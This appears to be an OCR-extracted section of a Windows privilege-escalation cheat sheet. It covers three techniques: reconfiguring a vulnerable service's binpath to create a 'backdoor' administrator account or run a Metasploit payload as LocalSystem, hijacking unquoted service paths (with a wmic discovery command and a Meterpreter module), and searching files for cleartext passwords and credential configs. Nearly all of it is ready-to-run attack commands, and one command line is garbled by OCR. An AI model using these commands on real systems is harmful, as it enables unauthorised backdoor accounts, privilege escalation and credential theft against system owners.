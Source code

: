 $ sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"

$ sc stop <vuln-service>

$ sc start <vuln$ -service>

$ sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"

$ sc stop <vuln-service>

$ sc start <vuln-service>

Note - Might need to use the depend attribute explicitly:

$ sc stop <vuln-service>

sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""

sc start <vuln-service>

EoP 2: Find unquoted paths

If we find a service running as SYSTEM/Administrator with an unquoted path and spaces in the path we can hijack the path and use it to elevate privileges. This occurs because windows will try, for every whitespace, to find the binary in every intermediate folder.

For example, the following path would be vulnerable:

C:\Program Files\something\winamp.exe

We could place our payload with any of the following paths:

C:\Program.exe

C:\Program Files.exe

The following command will display affected services:

$ wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

We might even be able to override the service executable, always check out the permissions of the service binary:

$ icacls "C:\Program Files (x86)\Program Folder"

You can autoamte with meterpreter:

\> exploit/windows/local/trusted\_service\_path

EoP 3: ClearText passwords (quick hits)

We might somtetimes find passwords in arbitrary files, you can find them running:

$ findstr /si password \*.txt

findstr /si password \*.xml

findstr /si password \*.ini

Find all those strings in config files.

$ dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*
